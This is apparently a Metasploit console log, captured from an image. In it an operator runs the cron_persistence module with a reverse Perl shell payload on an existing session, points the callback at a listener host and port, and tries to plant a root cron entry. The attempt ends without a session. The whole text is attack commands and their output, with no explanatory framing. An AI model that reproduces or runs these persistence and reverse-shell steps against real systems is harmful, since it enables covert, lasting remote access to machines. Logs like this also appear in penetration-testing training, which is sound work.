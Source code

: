 ```
   --  ----
   1   User Crontab


msf5 exploit(linux/local/cron_persistence) > set SESSION 4
SESSION => 4
msf5 exploit(linux/local/cron_persistence) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.1.0.13:4444 
[-] Failed to open file: /etc/cron.allow: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cron.deny: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cron.d/cron.allow: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cron.d/cron.deny: core_channel_open: Operation failed: 1
[*] Waiting 90sec for execution
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
msf5 exploit(linux/local/cron_persistence) > show options

Module options (exploit/linux/local/cron_persistence):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CLEANUP   true             yes       delete cron entry after execution
   SESSION   4                yes       The session to run this module on.
   TIMING    * * * * *        no        cron timing.  Changing will require WfsDelay to be adjusted
   USERNAME  root             no        User to run cron/crontab as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.1.0.13        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   User Crontab


msf5 exploit(linux/local/cron_persistence) > set LHOST 192.58.78.2
LHOST => 192.58.78.2
msf5 exploit(linux/local/cron_persistence) > set LPORT 4422
LPORT => 4422
msf5 exploit(linux/local/cron_persistence) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.58.78.2:4422 
[-] Failed to open file: /etc/cron.allow: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cron.deny: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cron.d/cron.allow: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cron.d/cron.deny: core_channel_open: Operation failed: 1
[*] Waiting 90sec for execution
[*] Removing our cron entry from /var/spool/cron/crontabs/root
[*] Exploit completed, but no session was created.
```
